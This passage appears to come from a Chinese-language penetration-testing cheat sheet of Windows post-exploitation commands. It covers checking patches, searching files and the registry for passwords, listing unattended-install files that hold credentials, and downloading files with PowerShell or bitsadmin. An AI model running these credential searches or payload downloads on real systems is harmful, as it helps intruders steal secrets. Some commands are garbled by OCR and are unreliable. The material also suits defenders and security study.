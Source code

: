   ```
- 查看已安装的更新和安装日期 

- ```
  wmic qfe get Caption,[De**ion]（还不知道是啥）,HotFixID,InstalledOn |findstr /C:"KB" 查找指定补丁，若没有，说明没有安装
  ```

- 结束程序 `wmic process where name = "iexpore.exe" call terminate`

#### 	7.检索敏感文件

```
利用dir命令
dir /b /s [目标]
password.txt  *.doc/ppt/xls/docx/xlsx   config.*filesystem
/B 使用空格式(没有标题信息或摘要)。
/C 在文件大小中显示千位数分隔符。这是默认值。用 /-C 来禁用分隔符显示。
利用findstr命令
findstr /si password *.xml *.ini *.txt
findstr /si login *.xml *.ini *.txt 

无人值守安装日志文件（通常包含base64编码的密码）
C:\sysprep.inf
C:\sysprep\sysprep.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\Panther\Unattend.xml
```

#### 8.目录文件操作

bat 中 for 的参数 ：`` /d(查询目录,只搜索文件夹，不搜索文件)`` `` /r（从当前目录或指定目录开始，深入所有子目录）`` `` /f``（搜索文件并获取问价内容） `` /l``

```
1.列出指定目录内容
for /d %i in (D:\www\*) do @echo %i
2.以当前目录为搜索路径，搜索指定文件内容
for /r %i in (*.exe) do @echo %i
3.显示指定文件中的内容
for /f %i in (指定文件路径) do @echo %i
```

#### 9.Windows7及以上的利用bitsadmin和powershell下载指定文件的命令

```
powershell>    (new-object System.Net.WebClient).DownloadFile('url文件路径'，'生成文件名')  #生成在当前路径下
bitsadmin /transfern url文件路径 生成文件路径+文件名
```

#### 10.注册表关键字搜索

```
/f 指定关键字，默认为*
/t 指定注册表值数据类型
/s 循环遍历搜索值和子项
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
